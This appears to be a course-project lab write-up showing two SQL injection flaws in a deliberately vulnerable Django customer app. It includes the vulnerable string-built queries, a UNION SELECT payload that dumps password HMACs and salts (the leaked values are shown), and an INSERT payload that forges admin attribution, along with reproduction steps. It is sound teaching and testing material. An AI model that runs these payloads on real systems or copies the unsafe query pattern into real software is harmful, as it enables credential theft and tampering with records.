





# SQL Injection — Part A, Section 4 (מסך מערכת)

Live demonstration of **two** SQL Injection sinks on the Customer screen of
`Communication_LTD`, captured end-to-end via Chrome DevTools against the
running app in vulnerable mode (`VULNERABLE_MODE=1`).

This document covers the **attack** half of the requirement. The mitigation
(parameterized queries) is treated separately.

---

## 1. What the spec asks for

Part A, section 4 (מסך מערכת):

> הכנסת לקוח חדש עם פרטים חדשים. הצגה למסך את שם לקוח החדש שהוזן.

The Part B counterpart:

> הצגת דוגמא לשימוש בהתקפה מסוג SQLi על סעיף 4 מחלק א של הפרויקט.

Section 4 has two database operations that touch user-supplied data —
**search** (SELECT) and **add** (INSERT) — and both are vulnerable in the
vulnerable build. Each one demonstrates a different *class* of damage.

---

## 2. The two vulnerabilities

### Sink A — search (SELECT)

[`customers/views.py:28-47`](../../customers/views.py#L28-L47):

```python
if settings.VULNERABLE_MODE:
    with connection.cursor() as cursor:
        sql = (
            "SELECT id, full_name, email, phone, address "
            "FROM customers_customer "
            f"WHERE full_name LIKE '%{query}%' OR email LIKE '%{query}%'"
        )
        cursor.execute(sql)
        rows = cursor.fetchall()
```

The five-column projection (`id, full_name, email, phone, address`) is
rendered straight into the visible customer table. So whatever an attacker
can produce with a compatible column shape lands in the UI. This is the
textbook target for a `UNION SELECT` exfiltration attack.

### Sink B — add customer (INSERT)

[`customers/views.py:84-103`](../../customers/views.py#L84-L103):

```python
if settings.VULNERABLE_MODE:
    from django.utils.timezone import now as _now
    ts = _now().strftime('%Y-%m-%d %H:%M:%S')
    with connection.cursor() as cursor:
        sql = (
            "INSERT INTO customers_customer "
            "(full_name, email, phone, address, sector_id, package_id, notes, "
            " created_at, created_by_id) "
            f"VALUES ('{full_name}', '{email}', '{phone}', '{address}', "
            f"{sector_id or 'NULL'}, {package_id or 'NULL'}, '{notes}', "
            f"'{ts}', {request.current_user.id})"
        )
        cursor.execute(sql)
```

Every text field gets dropped into the SQL between unescaped single quotes.
The attacker can close the value list early and supply their own values for
every column — including `created_by_id`, which the application thinks it
controls authoritatively from the session.

---

## 3. Attack A — UNION SELECT exfiltration via the search box

### Step 1 — baseline customer list



The Customers page is the screen described by Section 4. Nine real
customers, four visible columns, search box at the top.

### Step 2 — submit the UNION payload

Paste this into the search box:

```
' UNION SELECT id, username, email, password_hmac, password_salt FROM accounts_user --
```

The reconstructed SQL the server runs (the `--` comments out the trailing
`OR email LIKE …`):

```sql
SELECT id, full_name, email, phone, address FROM customers_customer
 WHERE full_name LIKE '%'
 UNION
 SELECT id, username, email, password_hmac, password_salt FROM accounts_user
 --%' OR email LIKE '%...%'
```

The first SELECT returns all customers (`LIKE '%'` matches anything). The
second SELECT, glued on by `UNION`, returns every row of the user table
projected through the same five-column shape — substituting `username` for
`full_name`, `password_hmac` for `phone`, `password_salt` for `address`.

### Step 3 — observe the dump



Interleaved with the legitimate customers, three rows now expose real user
credentials. From the snapshot the page contains, e.g.:

```
admin       arielsholet1234@gmail.com   c376b3230ccaa80cc635aa9392be91cf17a6a3e91c60a75dff2d4ec2c13d203e   187723139fb81b1ba406dab804c188a2
xss_demo    xss_demo@example.com        da1bb1471087c745180f7adfc47a8cacfde78beb04db295fcfe054a6d983a9e8   b8f7705fdb12cb84972175f12001def3
forgetful   forgetful@example.com       48f5c776736c64c401db7e14359508c4bd890c2b875327e14c9f529c6737a618   6809749f9881020b62c54062c9e80696
```

The 64-hex-char strings in the Phone column are HMAC-SHA256 digests; the
32-hex-char strings in the Address column are the corresponding salts.
With these in hand, the attacker can run offline brute-force against every
account *in parallel*: try a candidate password, recompute
`HMAC(salt, candidate)`, compare to the stored digest. HMAC-SHA256 is fast,
so weak passwords fall in seconds on a GPU — see
[accounts/utils.py:30-40](../../accounts/utils.py#L30-L40) for the exact
function the attacker would re-implement offline.

This is the worst-case outcome for the search SQLi: confidentiality of the
credential database is destroyed without ever needing access to the server
itself.

---

## 4. Attack B — INSERT injection (data-integrity, not just disclosure)

### Step 1 — smoking-gun syntax error (`O'Brien`)

Submit a perfectly legitimate-looking name with a single quote:

```
Full name: O'Brien
Email:     obrien@example.com
```

The reconstructed SQL:

```sql
INSERT INTO customers_customer (full_name, email, ...)
VALUES ('O'Brien', 'obrien@example.com', '', '', NULL, NULL, '', '2026-…', 10)
```

SQLite sees the unescaped `'` after `O` and ends the string literal there,
then trips over `Brien` as a bare identifier:



The page renders **`Database error: near "Brien": syntax error`** verbatim.
This isn't even an *attack* — just a normal person's surname — but the
parser error proves user input is in SQL **syntax** space rather than value
space. A real customer with this name could not be added; their data
silently corrupts the database. This is a routine operational risk that
parameterized queries would eliminate automatically.

### Step 2 — forge a row attributed to admin

Now the real attack. The logged-in user is `xss_demo` (id 10). The app
believes `created_by_id` is set authoritatively from the session
([customers/views.py:98](../../customers/views.py#L98)):

```python
f"'{ts}', {request.current_user.id})"
```

But because **every** input field is concatenated into the same SQL string,
the attacker can close the VALUES list inside the `full_name` field and
write their own value list — including `created_by_id`.

Payload pasted into the **Full name** field:

```
Forged Customer', 'forged@evil.com', '555-0000', 'Attacker St', NULL, NULL, 'created by admin via SQLi', '2099-01-01 00:00:00', 9) -- 
```

Email field: anything (it gets commented out by `--`, so the value the
form sends doesn't matter).

The reconstructed SQL becomes:

```sql
INSERT INTO customers_customer (full_name, email, phone, address, sector_id, package_id, notes, created_at, created_by_id)
VALUES ('Forged Customer', 'forged@evil.com', '555-0000', 'Attacker St', NULL, NULL, 'created by admin via SQLi', '2099-01-01 00:00:00', 9) -- ', 'anything@example.com', '', '', NULL, NULL, '', '2026-…', 10)
```

The `--` discards everything from there to end-of-line, so SQLite executes
only the first INSERT — with **attacker-controlled values in every column**
including `created_by_id=9` (admin).

The app reports success and shows the raw form input back to the user (the
template echoes `request.POST['full_name']` unparsed):



### Step 3 — verify the forgery in SQL

```bash
$ sqlite3 -header db.sqlite3 \
    "SELECT id, full_name, email, phone, address, notes,
            created_at, created_by_id
     FROM customers_customer WHERE full_name='Forged Customer';"

id  full_name        email             phone     address      notes                          created_at           created_by_id
15  Forged Customer  forged@evil.com   555-0000  Attacker St  created by admin via SQLi      2099-01-01 00:00:00  9
```

Every field is attacker-controlled:

| Field | Stored value | Came from |
|---|---|---|
| `full_name` | `Forged Customer` | the payload (clean, no payload junk — the `'` split it) |
| `email` | `forged@evil.com` | the payload (**not** the email the form actually submitted) |
| `phone` | `555-0000` | the payload (the form's phone field was empty) |
| `address` | `Attacker St` | the payload |
| `notes` | `created by admin via SQLi` | the payload |
| `created_at` | `2099-01-01 00:00:00` | the payload (server clock bypassed) |
| `created_by_id` | `9` (admin) | the payload — **session attribution forged** |

And the row appears in the customer list with no marker distinguishing it
from a legitimate entry created through the UI:



This is qualitatively different from the search-side leak: that one
violates confidentiality, this one violates **integrity** and
**accountability**. An auditor reading the customer table later would
attribute this row to admin — a different real user. The damage is
non-repudiation: the system's own audit trail has been weaponized as a
frame-up tool.

---

## 5. Honest caveats

1. **SQLite doesn't allow stacked statements through `cursor.execute()`.**
   Most online SQLi tutorials assume MySQL semicolons-everywhere; that
   trick doesn't work here. We didn't *need* it — closing the VALUES list
   and trailing `--` was enough.
2. **`DEBUG=True` exposes raw DB errors.** Same as in §3: production with
   `DEBUG=False` would mask the literal SQLite error text behind a generic
   500 page. The vulnerability would still be exploitable; the attacker
   just gets less feedback.
3. **The forged INSERT relies on the attacker being authenticated.** The
   `add_customer` view is `@login_required`. So this attack composes with
   an earlier one: SQLi at §3 enumerates users, the attacker registers
   their own account legitimately, and then escalates here to forge data
   attributable to other users.

---

## 6. Reproduction checklist

```bash
# 1. Start the vulnerable build
set -a; source .env; set +a
USE_SQLITE=1 VULNERABLE_MODE=1 python manage.py runserver

# 2. Log in (xss_demo / Demo!Passw0rd#2026 — any account works)

# Attack A: SELECT-side UNION dump
# 3. http://127.0.0.1:8000/customers/  →  search:
#    ' UNION SELECT id, username, email, password_hmac, password_salt FROM accounts_user --
#    → user salts/HMACs appear in the customer table

# Attack B1: INSERT-side syntax error
# 4. /customers/add/  →  Full name = O'Brien
#    → "Database error: near \"Brien\": syntax error"

# Attack B2: INSERT-side forgery
# 5. /customers/add/  →  Full name =
#    Forged Customer', 'forged@evil.com', '555-0000', 'Attacker St', NULL, NULL, 'created by admin via SQLi', '2099-01-01 00:00:00', 9) -- 
# 6. Verify created_by_id=9 (admin), not 10 (xss_demo):
sqlite3 -header db.sqlite3 \
  "SELECT full_name, created_by_id FROM customers_customer
   WHERE full_name='Forged Customer';"
```

---

## 7. Files referenced

| Path | Role |
|---|---|
| [`customers/views.py:28-47`](../../customers/views.py#L28-L47) | `customer_list` — vulnerable SELECT (search sink) |
| [`customers/views.py:84-103`](../../customers/views.py#L84-L103) | `add_customer` — vulnerable INSERT (write sink) |
| [`customers/templates/customers/customer_list.html`](../../customers/templates/customers/customer_list.html) | Renders the 5-column projection that the UNION attack populates |
| [`accounts/utils.py:30-40`](../../accounts/utils.py#L30-L40) | `hmac_password` — what the attacker re-implements offline using the leaked salt/HMAC pairs |

| Screenshot | What it shows |
|---|---|
| [`screenshots/sqli-s4-01-customer-list-baseline.png`](screenshots/sqli-s4-01-customer-list-baseline.png) | Baseline customer list — 9 legitimate rows |
| [`screenshots/sqli-s4-02-union-leak-user-hashes.png`](screenshots/sqli-s4-02-union-leak-user-hashes.png) | UNION payload leaks admin / xss_demo / forgetful HMACs + salts into the customer table |
| [`screenshots/sqli-s4-03-add-customer-syntax-error.png`](screenshots/sqli-s4-03-add-customer-syntax-error.png) | `O'Brien` triggers `Database error: near "Brien": syntax error` |
| [`screenshots/sqli-s4-04-forged-insert-success.png`](screenshots/sqli-s4-04-forged-insert-success.png) | Forged-INSERT payload accepted; page echoes the raw payload as the "name" |
| [`screenshots/sqli-s4-05-forged-row-in-list.png`](screenshots/sqli-s4-05-forged-row-in-list.png) | Forged row visible in the customer list — indistinguishable from a legitimate entry |
